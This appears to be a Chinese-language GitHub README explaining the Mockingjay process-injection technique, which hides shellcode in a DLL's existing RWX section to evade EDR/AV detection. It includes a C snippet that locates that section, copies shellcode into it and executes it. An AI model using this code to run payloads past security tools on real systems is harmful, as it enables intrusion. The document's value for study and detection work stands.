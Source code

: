 # Mockingjay Process Injection

## 概述

**Mockingjay** 是一种利用 DLL 中已存在的 RWX（可读可写可执行）节区进行代码注入的技术。该技术无需调用 `VirtualAlloc`、`VirtualProtect` 等常规内存分配 API，从而绕过基于内存分配的 EDR/AV 检测。

## 技术原理

### 核心思想

某些 DLL（如 `msys-2.0.dll`）包含具有读、写、执行权限的内存节区。Mockingjay 技术利用这些现成的 RWX 节区作为 shellcode 的执行空间。

### 执行流程

```
1. 查找 RWX 节区
   └─> 加载目标 DLL (LoadLibrary)
   └─> 解析 PE 头 (ImageNtHeader)
   └─> 遍历节区 (IMAGE_FIRST_SECTION)
   └─> 检查节区权限 (IMAGE_SCN_MEM_READ | WRITE | EXECUTE)

2. 写入 Shellcode
   └─> 直接使用 memcpy 写入 RWX 节区
   └─> 无需 VirtualAlloc/VirtualProtect

3. 执行 Shellcode
   └─> 将 RWX 节区地址转换为函数指针
   └─> 调用执行
```

### 关键代码

```c
// 查找 RWX 节区
IMAGE_NT_HEADERS* ntHeader = ImageNtHeader(hModule);
IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);

for (WORD i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {
    if ((sectionHeader->Characteristics & IMAGE_SCN_MEM_READ) &&
        (sectionHeader->Characteristics & IMAGE_SCN_MEM_WRITE) &&
        (sectionHeader->Characteristics & IMAGE_SCN_MEM_EXECUTE)) {

        LPVOID rwxAddr = (LPVOID)((BYTE*)hModule + sectionHeader->VirtualAddress);

        // 写入 shellcode
        memcpy(rwxAddr, shellcode, shellcodeSize);

        // 执行
        ((void(*)())rwxAddr)();

        break;
    }
    sectionHeader++;
}
```
